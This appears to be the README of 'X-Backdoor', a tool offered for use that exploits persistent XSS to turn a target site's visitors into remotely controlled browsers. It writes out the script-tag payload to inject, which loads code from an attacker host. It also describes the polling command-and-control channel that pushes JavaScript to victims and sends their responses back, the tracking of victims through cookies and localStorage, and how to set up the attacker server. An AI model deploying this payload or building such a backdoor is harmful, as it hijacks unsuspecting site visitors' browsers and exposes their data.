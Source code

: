 # X-Backdoor I

X-Backdoor is a tool to take advantage of a persistent XSS vulnerability. The idea is to play and explore the modern browsers capabilities and the impact that these can have when someone can control the clients.

### Version
1.0

### Screenshots
![screen1](https://raw.githubusercontent.com/BlackEmpire/xbackdoor/master/screenshots/screen1.png "Screen 1")
![screen2](https://raw.githubusercontent.com/BlackEmpire/xbackdoor/master/screenshots/screen2.png "Screen 2")

### Description
We have a target site and an attacker site. In the attacker site there are all the files of the project:
* db.php - Contains the database configuration
* getjs.php - Send js code to the client
* acp/ - contain all the files to admin the backdoor

Now, the attacker inject (with a persistent XSS) this piece of code in the target site:
```html
<script id="scr72" src="http://attackersite/getjs.php"></script>
```
So when a client visit the target site its browser will fetch the content from getjs.php. The javascript code sent from getjs.php, force the browser to make a new request every X seconds, where X is in your configuration. Meanwhile the attacker can view the victim clients, send to them javascript functions and get the response. When a client request the code from getjs.php, the php script checks if there is some js function to execute. If there is, it'll be sent to the client. The next time the client perform a request to the attacker site (looking for new commands) it'll send also the response of the previous function/command.

#### Reload mechanism
In the javascript code sent from the attacker site there is a function that re-create a new script object in the DOM and this force the browser to make a new request. Every time the new script object has two get parameters. The first is the user id (uid) and the second is the data as response from a previous command. So it looks like this:
```html
<script id="scr72" src="http://attackersite/getjs.php?r=2366&uid=7278&data=somereply"></script>
```
The parameter r is a random number to avoid the caching (the requested url are always different).By default the response sent with the parameter data is encoded, while the javascript code sent from the php script is in clear text.

### User ID
When a client visit the infected page on the target site for the first time, a random number (his uid) will be generated and he'll send a special message to the attacker php script.
The uid will be saved into localStorage and in a cookie, so the browser will remember its uid. The attacker have to send a code to delete the cookie and clear the localStorage to have a new registration by the same user.

#### Database
The database has three tables: `functions`, `users`, `schedules`.\
The table `users` contains all information about the clients retrieved by php (server side).\
The table `functions` contains a list of javascript functions.\
The table `schedules` points one ore more functions that a certain client have to execute and saves the response.

The database schema is in db_dump.sql, you can manually execute the queries or import the file with phpMyAdmin. In the database there are already some functions. See *funclib.md* to get more functions.
### Configuration
Edit the following files:
* acp/login.php - Edit the default login password
* db.php - Insert your database configuration
* getjs.php - Set some parameters

### Development

Everyone can join the project and submit his patches :)


License
----

GNU General Public License v3 (GPL-3)


